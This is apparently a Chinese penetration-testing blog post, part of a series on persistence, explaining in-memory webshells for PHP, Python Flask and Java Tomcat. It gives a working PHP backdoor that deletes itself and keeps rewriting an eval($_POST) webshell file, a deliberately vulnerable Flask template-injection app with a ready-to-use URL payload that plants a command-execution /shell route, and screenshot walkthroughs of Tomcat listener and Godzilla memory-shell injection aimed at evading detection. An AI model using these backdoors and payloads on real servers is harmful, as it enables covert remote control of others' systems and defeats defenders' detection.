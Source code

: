 ```yaml
---
title: day17-权限维持篇-web-内存马
date: 2024-03-21 23:13 +0800
comments: true
categories: [内网,web] 
tags: [横向移动,Linux]
img_path: /img/penetration/
---
```


## 0x00前言

Webshell内存马，是在内存中写入恶意后门和木马并执行，达到远程控制Web服务器的一类内存马，其瞄准了企业的对外窗口：网站、应用。但传统的Webshell都是基于文件类型的，黑客可以利用上传工具或网站漏洞植入木马，区别在于Webshell内存马是无文件马，利用中间件的进程执行某些恶意代码，不会有文件落地，给检测带来巨大难度。 

内存webshell相比于常规webshell更容易躲避传统安全监测设备的检测，通常被用来做持久化，规避检测，持续驻留目标服务器。==无文件攻击、内存Webshell、进程注入等基于内存的攻击手段也受到了大多数攻击者青睐。==

再次之后可能会详细的介绍有关于webshell内存马的文章！！！

## 0x01 php内存马

对于php来说，实际上不算是比较存粹的内存马。在php中最主要的是写入一个php文件使其能够达到删除不掉的地步，也就是不断的生成文件，详情参考下面的代码：

```php
set_time_limit()函数：设置允许脚本运行的时间，单位为秒（如果设置该运行时间，sleep()函数在执行程序时的持续时间将会被忽略掉）
ignore_user_abort()函数：函数设置与客户机断开是否会终止脚本的执行（如果设置为True，则忽略与用户的断开）
unlink(FILE)函数：删除文件（防止文件落地被检测工具查杀）
file_put_contents函数：将一个字符串写入该文件中
usleep函数：延迟执行当前脚本数微秒，即条件竞争
```

```php
<?php
ignore_user_abort(true);
set_time_limit(0);
@unlink(__FILE__);
$file = '.yuan.php';
$code = '<?php @eval($_POST[\'c\']); ?>';
while (1){
    file_put_contents($file,$code);
    usleep(5000);
}
?>
```

效果如下：

![截图](0187b66d9b9b1c7e753a423b18b4b7a9.png)

此时，就会发现我们一直无法删除这个文件了！！！ 除非重启。

> php这里是有文件显示的！

## 0x02 python

python这里则是基于`flask`的模板注入;

首先，启动`flask`的模板：

```python
from flask import Flask,request
from flask import render_template_string
app = Flask(__name__)

@app.route('/')
def hello_world():
    return 'Hello World'


@app.route('/test',methods=['GET', 'POST'])
def test():
    template = '''
        <div class="center-content error">
            <h1>Oops! That page doesn't exist.</h1>
            <h3>%s</h3>
        </div> 
    ''' %(request.values.get('param'))

    return render_template_string(template)


if __name__ == '__main__':
    app.run(port=8000)   
```

```cmd
python flaskSstiServer.py
```

此时，注入内存马的参数：

```python
url_for.__globals__['__builtins__']['eval'](
    "app.add_url_rule(
        '/shell', 
        'shell', 
        lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd', 'whoami')).read()
    )",
    {
        '_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],
        'app':url_for.__globals__['current_app']
    }
)
```
```text
 {% raw %}
 http://127.0.0.1:8000/test?param={{url_for.__globals__[%27__builtins__%27][%27eval%27](%22app.add_url_rule(%27/shell%27,%20%27shell%27,%20lambda%20:__import__(%27os%27).popen(_request_ctx_stack.top.request.args.get(%27cmd%27,%20%27whoami%27)).read())%22,{%27_request_ctx_stack%27:url_for.__globals__[%27_request_ctx_stack%27],%27app%27:url_for.__globals__[%27current_app%27]})}}
 {% endraw %}
```

![截图](b49db16c1ce2bfec32874e1c785a6b83.png)

此时，访问shell地址即可！

![截图](4fef440a66495272472f7d37374cb35e.png)

从这里我们也可以看见，我们当前目录下面是没有任何文件的，但是我们依然可以访问并执行命令！

## 0x03 java

利用文件上传注入内存马。环境是tomact9和jdk11 ！

#### 搭建环境

配置tomcat请参考：https://blog.csdn.net/qq_29493173/article/details/110304388

在IntelliJ IDEA中配置Tomcat：https://blog.csdn.net/Wxy971122/article/details/123508532

> 如果TOMCAT启动提示NB: JAVA_HOME should point to a JDK not a JRE解决
>
> https://blog.csdn.net/caozhongyan/article/details/6602759
>
> 如果ide没有tomcat：
>
> https://blog.csdn.net/u010459738/article/details/109612997

#### 内存马种类介绍

1、按攻击思路，大致分为：

-Java Instrumentation类（Agent型）

-Servlet-api类（Servlet型、Filter型、Listener型）

-Spring类（Controller型、Interceptor型）

2、按注入的对象分为：tomcat、weblogic、shiro等类型。

#### 演示

首先，我们来看看`listener`类型的内存马：

![截图](ca93ec0be4e4eee3b70d54d4c33cbabe.png)

然后我们可以在tomcat的根目录下看到该文件已经被上传成功！！

![截图](f6687749946d3f7e67cbad362c31f524.png)

由于此时，该文件还没被执行，因此还没有注入内存马，此时我们访问一些不存在的页面（带参数）时候是不会成功的！

![截图](47f313dcabce667f57aeb7f1e1e25916.png)

那么接下来，让我们访问一下该内存马：

![截图](9abc2fb97c9f664dee6f6132230f76db.png)

会弹出计算器，然后此时由于已经注入到内存中，只要我们输入的参数包含了`cmd`的话就会被监控到并执行相应的效果：（~~即使该页面不存在）~~

![截图](7820326805dcb4da1edcebc0dcc0f114.png)

#### 哥斯拉注入演示

首先，生成一个木马并上传：

![截图](516a79df551bed204f4912ad0f1da154.png)

然后建立连接并访问：（注意这里的访问路径要写入对应的上传地址）

![截图](f2e0b34128c6196ac13d671a0178fbfb.png)

此时，我们连接`1.jsp`是可以的：

![截图](c44189042cca1e17d70fb68cf76ef335.png)

然后，我们利用此进行注入：

![截图](f563436b255aec034f94aaf3cb49581f.png)

这里，当我们不点击run时候，我们无论如何是也连接不进去的（而且`.ico`也是个图片）

![截图](7be38268e2fb87264718205aea5ec067.png)

然后我们点击run：

![截图](f0ef6883dded01c141c0b1243164d6fa.png)

就发现成功了！！

此时，我们即使把之前的`1.jsp`删了，我们的内存马也可以连接：

![截图](f23d1a178ab84e1fad99381527943ef1.png)

![截图](6f0424bc0911e24d55a0563f5a888717.png)

而且在根目录下面也是没有文件的：

![截图](903ad7079e1fb3d98e27420f4bdc408a.png)
